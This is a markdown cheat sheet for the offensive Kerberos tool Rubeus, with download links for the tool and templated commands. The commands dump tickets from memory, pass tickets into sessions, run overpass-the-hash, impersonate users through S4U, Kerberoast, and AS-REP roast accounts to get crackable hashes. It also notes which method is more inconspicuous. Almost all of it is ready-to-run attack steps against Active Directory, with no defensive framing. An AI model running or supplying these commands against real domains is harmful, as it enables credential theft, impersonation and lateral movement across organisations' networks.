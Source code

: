 ### Sources or compile directly from github
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1  
https://github.com/GhostPack/Rubeus

## note: always use the fully qualified domain name to execute commands after getting a ticket

### List kerberos tickets applied to current logon session
```
Rubeus.exe triage
```

### Dump tickets inside memory
```
Invoke-Rubeus -Command 'dump /service:krbtgt'
```

### Pass ticket to current session (/ticket can also be pathToKirbiFile)
```
Invoke-Rubeus -Command 'ptt /ticket:<base64>'
```

### Purge all kerberos tickets
```
Invoke-Rubeus -Command 'purge'
```

### Get TGT for specific user (Overpass-the-Hash), /nowrap print with no line breaks, use /ptt to import to session
```
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /rc4:<ntHash> /nowrap'
```

### Get TGT using - the more inconspicuous way
```
Invoke-Rubeus -Command 'hash /user:<user> /domain:<domain> /password:<password>'
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /aes256:<aes> /dc:<domainController> /ptt'
```

### Impersonate user (use cifs as alternative service for http) (further request will need to use the fqdn)
```
Invoke-Rubeus -Command 's4u /impersonateuser:<targetUser> /msdsspn:http/<fqdnRhost> /ticket:<base64> /altservice:cifs'
```

### Create new process
```
Invoke-Rubeus -Command 'createnetonly /program:C:\Windows\System32\cmd.exe'
```

### Pass a ticket to the process
```
Invoke-Rubeus -Command 'ptt /luid:<luid> /ticket:<base64>'
```

### Kerberoasting using john format
```
Invoke-Rubeus -Command 'kerberoast /outfile:<file>.txt '
```

### Asrep roasting using john format 
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt '
```

### As-rep roasting for specific user and hashcat format
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt /format:hashcat /user:<user>'
```

